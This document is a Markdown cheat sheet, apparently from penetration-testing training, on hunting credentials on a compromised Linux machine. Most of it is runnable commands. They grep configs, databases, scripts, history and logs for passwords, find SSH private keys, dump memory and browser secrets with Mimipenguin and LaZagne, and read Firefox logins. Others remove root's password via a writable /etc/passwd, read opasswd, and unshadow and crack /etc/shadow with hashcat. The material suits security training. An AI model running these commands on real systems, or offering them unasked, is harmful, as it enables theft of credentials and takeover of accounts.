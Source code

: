 # Credential Hunting in Linux
Files 	History 	Memory 	Key-Rings
Configs 	Logs 	Cache 	Browser stored credentials
Databases 	Command-line History 	In-memory Processing 	
Notes 			
Scripts 			
Source codes 			
Cronjobs 			
SSH Keys 	


## Files
Configuration files 	Databases 	Notes
Scripts 	Cronjobs 	SSH keys


### Configuration Files
```bash
$ for l in $(echo ".conf .config .cfg .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

#### Credentials in Configuration Files
```bash
$ for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

We can apply this simple search to the other file extensions as well. Additionally, we can apply this search type to databases stored in files with different file extensions, and we can then read those.

### Databases
```bash
$ for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### Notes
```bash
$ find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

### Scripts
```bash
$ for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### Cronjobs
```bash
$ cat /etc/crontab
$ ls -la /etc/cron.*/
```

### SSH Keys
### SSH Private Keys
```bash
$ grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

### SSH Public Keys
```bash
$ grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"`
```

### History
#### Bash History
```bash
$ tail -n5 /home/*/.bash*
```

### Logs
Application Logs 	Event Logs 	Service Logs 	System Logs

Log File                | Description
----------------------- | ------------------------------------------------
/var/log/messages       | Generic system activity logs.
/var/log/syslog         | Generic system activity logs.
/var/log/auth.log       | (Debian) All authentication related logs.
/var/log/secure         | (RedHat/CentOS) All authentication related logs.
/var/log/boot.log      | Booting information.
/var/log/dmesg          | Hardware and drivers related information and logs.
/var/log/kern.log       | Kernel related warnings, errors and logs.
/var/log/faillog        | Failed login attempts.
/var/log/cron           | Information related to cron jobs.
/var/log/mail.log       | All mail server related logs.
/var/log/httpd          | All Apache related logs.
/var/log/mysqld.log     | All MySQL server related logs.


```bash
$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## Memory and Cache
### Memory - (Mimipenguin)[https://github.com/huntergregal/mimipenguin]
this tool requires administrator/root permissions.
```bash
$ sudo python3 mimipenguin.py`
$ sudo bash mimipenguin.sh`
```

### Memory - (LaZagne)[https://github.com/AlessandroZ/LaZagne]
```bash
$ sudo python2.7 laZagne.py all`
```

## Browsers
### Firefox Stored Credentials
```bash
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

### (Decrypting Firefox Credentials)[https://github.com/unode/firefox_decrypt]
```bash
$ python3.9 firefox_decrypt.py`
```

### Browsers - LaZagne
```bash
$ python3 laZagne.py browsers`
```

# Passwd, Shadow & Opasswd
## Passwd File
Usually, we find the value x in this field, which means that the passwords are stored in an encrypted form in the /etc/shadow file. However, it can also be that the /etc/passwd file is writeable by mistake. This would allow us to clear this field for the user root so that the password info field is empty. This will cause the system not to send a password prompt when a user tries to log in as root.

### Editing /etc/passwd - Before
root:x:0:0:root:/root:/bin/bash

### Editing /etc/passwd - After
root::0:0:root:/root:/bin/bash

Even though the cases shown will rarely occur, we should still pay attention and watch for security gaps because there are applications that require us to set specific permissions for entire folders. If the administrator has little experience with Linux or the applications and their dependencies, the administrator may give write permissions to the /etc directory and forget to correct them.

## Opasswd
The PAM library (pam_unix.so) can prevent reusing old passwords. The file where old passwords are stored is the /etc/security/opasswd. Administrator/root permissions are also required to read the file if the permissions for this file have not been changed manually.

```
$ sudo cat /etc/security/opasswd
```

Looking at the contents of this file, we can see that it contains several entries for the user cry0l1t3, separated by a comma (,). Another critical point to pay attention to is the hashing type that has been used. This is because the MD5 ($1$) algorithm is much easier to crack than SHA-512. This is especially important for identifying old passwords and maybe even their pattern because they are often used across several services or applications. We increase the probability of guessing the correct password many times over based on its pattern.

## Cracking Linux Credentials
### Unshadow
```
$ sudo cp /etc/passwd /tmp/passwd.bak 
$ sudo cp /etc/shadow /tmp/shadow.bak 
$ unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

### Hashcat - Cracking Unshadowed Hashes
```
$ hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

### Hashcat - Cracking MD5 Hashes
```
$ hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```